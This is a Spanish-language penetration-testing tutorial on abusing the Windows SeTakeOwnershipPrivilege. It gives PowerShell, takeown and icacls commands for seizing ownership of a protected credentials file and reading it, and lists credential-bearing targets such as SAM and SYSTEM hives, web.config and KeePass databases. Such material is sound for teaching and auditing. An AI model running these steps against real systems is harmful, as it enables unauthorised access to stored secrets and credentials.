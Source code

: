 
# Abuso de SeTakeOwnershipPrivilege en Windows

## ¿Qué es SeTakeOwnershipPrivilege?

`SeTakeOwnershipPrivilege` otorga a un usuario la capacidad de **tomar posesión de cualquier objeto securizable**, incluyendo:
- Archivos/carpetas NTFS
- Objetos de Active Directory
- Claves de registro
- Servicios, procesos, impresoras, etc.

Otorga derechos `WRITE_OWNER`, es decir, la posibilidad de cambiar el propietario de un objeto en su descriptor de seguridad.

### ¿Quién lo tiene por defecto?
- **Administradores**.
- A veces **cuentas de servicio** (ej: backups o VSS).

Aunque es raro que un usuario estándar tenga este privilegio, si se consigue (por ejemplo, mediante abuso de GPO), se puede usar para escalar privilegios.

---

## Revisión de privilegios actuales

```powershell
whoami /priv
```

Buscar `SeTakeOwnershipPrivilege`. Si aparece como `Disabled`, se puede habilitar:

```powershell
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
```

---

## Elegir un archivo objetivo

Durante la enumeración, se puede encontrar un archivo protegido como `cred.txt` en un recurso compartido (`\\Shares\Private\IT\cred.txt`) donde se tiene permiso para listar, pero no para leer.

---

## Tomar posesión del archivo

1. **Comprobar el propietario actual:**

```powershell
Get-ChildItem -Path 'C:\...\cred.txt' | Select FullName, @{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```

2. **Tomar posesión del archivo:**

```powershell
takeown /f 'C:\...\cred.txt'
```

3. **Verificar nuevo propietario:**

```powershell
(Get-Acl 'C:\...\cred.txt').Owner
```

---

## Modificar permisos con icacls

Aunque seamos propietarios, aún podemos no tener permisos de lectura.

1. **Agregar permisos:**

```powershell
icacls 'C:\...\cred.txt' /grant TuUsuario:F
```

2. **Leer el contenido:**

```powershell
cat 'C:\...\cred.txt'
```

---

## Consideraciones éticas

- **⚠️ Cambiar propietarios o ACLs es potencialmente destructivo.**
- **Siempre documentar y revertir los cambios si es posible.**
- Informar al cliente si no se pueden revertir.

---

## Archivos sensibles comunes

Archivos locales de interés que se pueden abusar con `SeTakeOwnershipPrivilege`:

- `c:\inetpub\wwwroot\web.config`
- `%WINDIR%\repair\sam`, `system`, `software`, `security`
- `%WINDIR%\system32\config\*.sav`, `*.Evt`
- Bases de datos KeePass `.kdbx`, scripts, archivos de contraseñas (`pass.*`, `creds.*`), VHDs, etc.

---

## Escenarios de uso

- Cuando otras técnicas están bloqueadas.
- Para acceder a archivos con secretos o credenciales.
- En auditorías donde se detecta este privilegio habilitado por GPO o configuración errónea.

---

## Herramientas útiles

- `whoami /priv`
- `takeown`
- `icacls`
- PowerShell: `Get-Acl`, `Set-Acl`
- [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

